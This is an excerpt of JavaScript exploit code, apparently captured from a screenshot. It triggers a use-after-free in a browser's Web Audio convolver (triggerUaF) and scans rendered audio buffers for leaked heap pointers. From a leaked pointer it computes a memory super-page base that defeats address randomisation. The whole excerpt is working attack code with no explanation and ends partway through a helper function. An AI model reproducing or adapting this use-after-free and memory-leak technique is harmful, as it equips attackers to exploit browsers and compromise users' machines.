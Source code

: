```JavaScript

	bufferSource.start();

	let finished = false;

	scriptNode.onaudioprocess = function(evt) {
    		let channelDataArray =
	    		new Uint32Array(evt.inputBuffer.getChannelData(0).buffer);

    		for (let j = 0; j < channelDataArray.length; j++) {
        		if (j + 1 < channelDataArray.length &&
	        		channelDataArray[j] != 0 && channelDataArray[j + 1] != 0) {
            			let u64Array = new BigUint64Array(1);
            			let u32Array = new Uint32Array(u64Array.buffer);
            			u32Array[0] = channelDataArray[j + 0];
            			u32Array[1] = channelDataArray[j + 1];

            			let leakedAddr = byteSwapBigInt(u64Array[0]);
            			if (leakedAddr >> BigInt(32) > BigInt(0x8000))
                			leakedAddr -= BigInt(0x800000000000);

             			let superPageBase = getSuperPageBase(leakedAddr);

	             		if (superPageBase > BigInt(0xFFFFFFFF) &&
		             		superPageBase < BigInt(0xFFFFFFFFFFFF)) {
                			finished = true;
                			evt = null;

                			bufferSource.disconnect();
                			scriptNode.disconnect();
                			convolver.disconnect();

                			setTimeout(function() {
                     			doneCb(leakedAddr);
                			}, 1);

                			return;
            			}
        		}
    		}
	};

	audioCtx.startRendering().then(function(buffer) {
    		buffer = null;

    		if (!finished) {
        	 	finished = true;
       	  	triggerUaF(doneCb);
    		}
	});

	while (!finished) {
    		convolver.buffer = null;
    		convolver.buffer = channelBuffer;
    		await later(100); // wait 100 millseconds
	}
}

function later(delay) {
	return new Promise(resolve => setTimeout(resolve, delay));
}

function byteSwapBigInt(x) {
```